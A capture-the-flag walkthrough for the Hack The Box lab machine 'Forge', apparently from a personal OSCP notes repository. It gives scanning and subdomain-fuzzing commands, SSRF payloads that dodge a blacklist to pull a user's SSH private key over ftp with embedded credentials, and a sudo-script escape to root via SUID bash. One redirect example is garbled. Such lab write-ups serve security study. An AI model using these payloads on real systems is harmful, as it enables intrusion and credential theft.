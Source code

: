 ## Forge

Difficulty: Medium

### User Flag

```
rustscan -a 10.10.11.111 --ulimit 5000 -- -A -sV -sC -oN nmap.txt
```

![rustscan](https://github.com/b1d0ws/OSCP/assets/58514930/d629b78c-bf20-48cd-8402-c73d492aa371)

<br>

The website has an upload image function that accepts images from URL.

![website](https://github.com/b1d0ws/OSCP/assets/58514930/287aacd2-7771-4cf0-851c-d4061442c42c)

![uploadSite](https://github.com/b1d0ws/OSCP/assets/58514930/7a1a09a1-1cc3-4398-8f88-59fe640f42f3)

<br>

Enumerating subdomain with fuff, we find admin.forge.htb, but this can only be accessed by localhost.

```
ffuf -w /usr/share/seclists/Discovery/DNS/namelist.txt -H "Host: FUZZ.forge.htb" -u http://forge.htb

ffuf -w /usr/share/seclists/Discovery/DNS/namelist.txt -H "Host: FUZZ.forge.htb" -u http://forge.htb -fw 18
```

![ffuf](https://github.com/b1d0ws/OSCP/assets/58514930/a0a9c156-7fff-4c08-9258-978fe40a7dd4)

![adminForge](https://github.com/b1d0ws/OSCP/assets/58514930/057d0815-113e-40ba-8050-3baa41bff496)

<br>

In the url upload mode, we can bypass the blacklist by putting uppercase characters in the payload.  

With this bypass, we can download the SSH key and access the user. Just put the payloads above and access the results with curl.

```
http://adMin.foRge.hTb

http://adMin.foRge.hTb/announcements

http://adMin.foRge.hTb/upload?u=ftp://user:heightofsecurity123!@0x7f000001/.ssh/id_rsa
```

![bypassingFilterCaps](https://github.com/b1d0ws/OSCP/assets/58514930/ced25c0d-286b-44de-9c6c-9a2a8937c5a9)

![curlAdmin](https://github.com/b1d0ws/OSCP/assets/58514930/017a4aac-8d60-4c63-b77f-c2433461b839)

![announcementsCurl](https://github.com/b1d0ws/OSCP/assets/58514930/3fdd8df8-ee23-4769-b66d-520bebe507e0)

![gettingKey](https://github.com/b1d0ws/OSCP/assets/58514930/b795f31d-5791-4796-885f-e8ba6ce30798)

<br>

There is another method to bypass this blacklist. We can create a redirection request, set the location to the file we want and access via URL.

```
HTTP/1.1 301 MOVED PERMANENTLY
Location: http://admin.forge.htb/announcements](http://admin.forge.htb/upload?u=ftp://user:heightofsecurity123!@127.0.0.1/.ssh/id_rsa)http://admin.forge.htb/upload?u=ftp://user:heightofsecurity123!@127.0.0.1/.ssh/id_rsa
```

![REQmode](https://github.com/b1d0ws/OSCP/assets/58514930/d9802afd-bec1-493d-8783-6430eb678659)

![mode2](https://github.com/b1d0ws/OSCP/assets/58514930/e7e416bb-e00e-4677-956b-ab94403c6b23)

### Root Flag

Enumerating sudo -l we have permission to execute a python script with sudo.  

The scripts create a localhost connection and give some options after you insert a password. The password is cleartext on the script.

![sudo -l](https://github.com/b1d0ws/OSCP/assets/58514930/aa4085db-7687-4e09-92b8-27297bed9a92)

<br>

To exploit this, connect to the localhost in another terminal, force an error putting some string instead of an int and get access to python interactive mode.  

After that, you can just put the SUID Bit in /bin/bash with "os" library.

![gettingRoot](https://github.com/b1d0ws/OSCP/assets/58514930/858d0cc6-4650-4a96-b1ee-65a9eeb5444c)
